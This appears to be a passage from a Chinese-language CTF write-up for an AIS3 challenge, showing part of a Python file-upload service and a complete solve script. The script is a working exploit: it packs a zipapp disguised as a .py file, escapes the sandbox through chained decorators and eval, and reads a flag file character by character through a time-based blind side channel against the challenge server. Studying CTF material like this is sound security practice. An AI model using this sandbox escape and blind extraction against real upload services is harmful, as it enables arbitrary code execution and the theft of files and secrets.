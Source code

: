 最後仔細看會發現 output 不可控但會 time out，可以用 time-based blind 來挖 flag

```python
return f'Success Execute! But if you don\'t get flag...You Lose...'

        except subprocess.TimeoutExpired as e:
            return f'Timeout Error! You Lose ... '
        except Exception as e:
            return f"Something went wrong! You Lose"

    return 'Your file is not \'.py\'.'
```

solve script ~~我懶得寫二分搜~~ (naup96321 說其實可以 popen send flag 就好)

```python
import os
import requests

def check(pos, c):
    s = \
    f"time.sleep(20) if open('/app/flags/' + os.listdir('/app/flags')[0]).read()[{pos}] == '{c}' else False"
    l = ""
    for c in s:
        l += str(ord(c)) + ', '
    return l

folder = "payload"

flag = ""
while True:
    for c in range(256):
        with open(f"{folder}/__main__.py", 'w') as f:
            f.write("import os\n")
            f.write("import time\n")
            f.write("# TomorinIsCuteAndILovePython\n")
            f.write("exit = lambda x : x\n")
            f.write(f"for x in [[{check(len(flag), chr(c))}]]:\n")
            f.write(f"\tfor y in [lambda z: x]:\n")
            f.write(f"\t\t@print\n")
            f.write(f"\t\t@eval\n")
            f.write(f"\t\t@bytes\n")
            f.write(f"\t\t@y\n")
            f.write(f"\t\tclass z:\n")
            f.write(f"\t\t\tpass\n")
        os.system(f"python -m zipapp {folder}")
        os.system(f"mv {folder}.pyz {folder}.pyz.py")

        try:
            r = requests.post(
                "http://chals1.ais3.org:10000/upload", 
                files = {'file': open(f"{folder}.pyz.py",'rb')},
                timeout = 2
            )
        except:
            flag += chr(c)
            print(flag)
            break
        
        if c == 255:
            exit()
```
